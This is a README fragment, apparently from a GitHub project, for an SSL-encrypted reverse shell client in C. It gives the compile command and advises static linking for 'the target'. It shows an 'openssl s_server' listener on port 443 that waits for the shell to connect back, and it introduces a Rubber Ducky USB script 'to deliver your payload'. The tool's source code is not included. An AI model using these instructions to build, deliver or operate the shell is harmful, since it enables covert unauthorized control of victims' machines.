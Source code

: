 
## Compilation and Use
  <pre>
  Before compiling , please make sure you have the OpenSSL dev package installed .</br>
Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>

   You will probably want to link statically against the library to avoid dependencies issues on the target. 

   You can either use [ncat](http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .</br>
   To test the client, you can use openssl s_server utility on your server and wait for connections: </br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>
</pre>


## Rubber Ducky Script
  This is a script that can be used to deliver your payload using HAK5 [Rubber Ducky USB stick](https://ducktoolkit.com).
